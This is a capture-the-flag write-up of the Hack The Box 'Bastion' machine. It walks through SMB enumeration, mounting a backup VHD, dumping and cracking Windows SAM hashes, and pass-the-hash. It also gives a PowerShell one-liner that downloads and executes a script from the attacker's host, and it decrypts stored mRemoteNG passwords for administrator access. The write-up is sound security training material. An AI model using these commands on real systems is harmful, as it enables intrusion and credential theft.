 ```yaml
---
title : "2020-02-HTB-Bastion"
author: Jesse Moore
date: 2020-02-07 09:26:00 +0800
categories: [HTB]
tags: [Windows]
---
```

![Screenshot 2022-05-18 202633](https://user-images.githubusercontent.com/6413570/169198097-7183d13b-8e54-4aa9-adb7-84f9131e7638.jpg)

10.10.10.134

ippsec.rocks/?#locat

https://www.hackthebox.eu/home/machines/profile/186
https://overflow.uaacyber.dev/2019/09/bastion.html
https://0xrick.github.io/hack-the-box/bastion/
https://github.com/kmahyyg/mremoteng-decrypt
https://www.elasticice.net/?p=255


![image](https://user-images.githubusercontent.com/6413570/169198090-dbe50757-25a2-4566-9967-56b7c8ef46b1.png)

nmap -sV -sC -oA nmap/Bastion 10.10.10.134

![image](https://user-images.githubusercontent.com/6413570/169198195-03df5cfb-eefc-49d6-8208-81a563e6eac8.png)

Scan the host as anonymous for open smb shares using SMBMap. 
Install SMBMap
![image](https://user-images.githubusercontent.com/6413570/169198253-6f4e02d1-320d-47e3-b3b0-7c01f7a904f3.png)

python3 -m pip install -r requirements.txt

List Shares that have no password:
smbclient --list //bastion.htb/ -U '
![image](https://user-images.githubusercontent.com/6413570/169198311-2555d8f0-69fa-4006-8a47-f6c6139e314d.png)


Looks like Backups is the only Comment that doesn't say we cant access

smbclient //10.10.10.134/Backups -U 

![image](https://user-images.githubusercontent.com/6413570/169198373-b6015259-46cb-4241-864b-64244065d0e9.png)

press l to list

![image](https://user-images.githubusercontent.com/6413570/169198429-82bf0367-631f-4726-b618-bc899f5df383.png)

![image](https://user-images.githubusercontent.com/6413570/169198460-b3df6a92-9861-429a-aa96-a5d9c00f6f25.png)

So we need to mount the VHD in the other directory
![image](https://user-images.githubusercontent.com/6413570/169198507-6f0c298f-dcad-426b-82ba-78f0c680819b.png)

cd Backup
![image](https://user-images.githubusercontent.com/6413570/169198529-c862e7cc-7f36-4d5e-9646-fba621978462.png)

See the VHD

Mount Backups
mount -t cifs //10.10.10.134/Backups /mnt/smb
![image](https://user-images.githubusercontent.com/6413570/169198566-ca3de773-3d2f-4a31-88d0-110e4c3d0ce2.png)

cat note.txt
![image](https://user-images.githubusercontent.com/6413570/169198605-712b7487-793a-494f-838f-7e9ead661e87.png)

use &zip if you want to see files... however we will just mount the vhd using guestmount
7z l 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd

####################################
mkdir /mnt/vhd2
guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd2

to mount a VHD you need this:
apt install libguestfs-tools

Create a mount directory to use for the mount
mkdir /mnt/vhd2

Use guestmount to mount the VHD
guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd2
![image](https://user-images.githubusercontent.com/6413570/169198657-2ec6290a-68be-4831-aa27-70acd39f3c78.png)

Find files in these directories
find Desktop Documents/ Downloads/ -ls
![image](https://user-images.githubusercontent.com/6413570/169198699-5d565314-ee5e-49df-b337-8b9110697e44.png)

Go into vhd2 and navigate to config in Windows to obtain SAM and SYSTEM files
![image](https://user-images.githubusercontent.com/6413570/169198737-a18b9713-591a-4a7e-bcb8-5808ab1db5ee.png)

cp SAM SYSTEM /root/htb/bastion
cd /root/htb/bastion
mkdir backup-dump
mv SAM SYSTEM backup-dump/
cd backup-dump/
![image](https://user-images.githubusercontent.com/6413570/169198770-6957f2c0-90bd-4dd7-ae54-0f676ed15f10.png)

root@kali:~/htb/bastion/backup-dump# impacket-secretsdump -sam SAM -system SYSTEM local

![image](https://user-images.githubusercontent.com/6413570/169198813-2e9837fa-f727-4ce5-9ee5-b6286624260b.png)

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::


NOTICE the Administrator NT HASH is BLANK aka 31d6c and the LM hash of aad3, which means the Administrative account is disabled.

try to crack the L4mpje hash 26112010952d963c8dc4217daec986d9 

https://crackstation.net/
![image](https://user-images.githubusercontent.com/6413570/169198862-1bea1925-8c17-4920-9355-8133d76faf05.png)


bureaulampje

OR pass the hash
smbmap -u L4mpje -p ad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9 -H 10.10.10.134

ssh L4mpje@10.10.10.134
bureaulampje

![image](https://user-images.githubusercontent.com/6413570/169198890-39ffc99e-ddef-4213-9285-d815d93f33fa.png)

net localgroup administrators
net user l4mpje
net user administrator

now that you see administrator has logged in... time to Priv Esc

Grab from Kali
JAWS Enumeration powershell github

git clone https://github.com/411Hall/JAWS.git


On TARGET:
powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14:8000/jaws-enum.ps1')
![image](https://user-images.githubusercontent.com/6413570/169198945-4c0f91a7-f49a-4fe6-b665-e568c6048e83.png)


In ANOTHER Windows
root@kali:~/htb/bastion# echo l4mpje:bureaulampje > creds
root@kali:~/htb/bastion# ls
backup-dump creds JAWS mountstuf nmap smbmap
root@kali:~/htb/bastion# cat creds
l4mpje:bureaulampje
root@kali:~/htb/bastion# ssh l4mpje@10.10.10.134
![image](https://user-images.githubusercontent.com/6413570/169198982-396b2d03-a845-4870-b9d0-ae2f5e14b3cc.png)

type C:\Users\L4mpje\Desktop\user.txt 

PS C:\Users\L4mpje> type C:\Users\L4mpje\Desktop\user.txt 
9bfe57d5c3309db3a151772f9d86c6cd 

git clone https://github.com/411Hall/JAWS.git

![image](https://user-images.githubusercontent.com/6413570/169199638-6e3a68b8-493d-427c-88a3-c8dc4e79d2c5.png)

python -m SimpleHTTPServer


On the TARGET:
powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14:8000/jaws-enum.ps1')


Looking through the JAWS output we see a programx86 as mRemoteNG

![image](https://user-images.githubusercontent.com/6413570/169199027-94265486-0687-408d-aa88-507f0d5c1892.png)

After manually enumerating installed programs mRemoteNG stands out of interest. Tool is used to remotely access server resources and is suggested to store credentials in an insecure manner. Credentials for application noted as being stored in file confCons.xml. Copy of the confCons.xml file obtained from %USER%/AppData/Roaming/mremoteng/confCons.xmland reviewed. 

Two items of interest found from reviewing file are below. File appears to store RDP credentialsfor user Administrator and L4mpje.
![image](https://user-images.githubusercontent.com/6413570/169199067-dae94686-b0b0-42c2-9247-b4c3df41a0ba.png)

Download decrypt python tool
https://github.com/kmahyyg/mremoteng-decrypt

Download the mRemotNG confCons.xml from target
scp l4mpje@10.10.10.134:/Users/L4mpje/AppData/Roaming/mRemoteNG/confCons.xml .
![image](https://user-images.githubusercontent.com/6413570/169199111-b7d8cb29-b75e-4e5a-a50a-5a67b2eddd3e.png)


cat confCons.xml | grep Password
![image](https://user-images.githubusercontent.com/6413570/169199149-8e3e94ae-46ff-40bc-b38d-ea69e93d0c69.png)

Username=Administrator Domain= Password=aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw== Hostname=127.0.0.1 Protocol=RDP
![image](https://user-images.githubusercontent.com/6413570/169199194-431f5a5a-641c-4d05-9d82-ac4d704e2476.png)

root@kali:~/htb/bastion/mremoteng-decrypt# python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2

Now SSH with that password as Administrator
ssh administrator@10.10.10.134


administrator@BASTION C:\Users\Administrator\Desktop>type root.txt 
958850b91811676ed6620a9c430e65c8
![image](https://user-images.githubusercontent.com/6413570/169199226-f131b09f-a0a0-4e49-9a17-cc31144146f8.png)


If you find the notes interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/jessefmoore"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a Coffee?&emoji=&slug=jessefmoore&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>

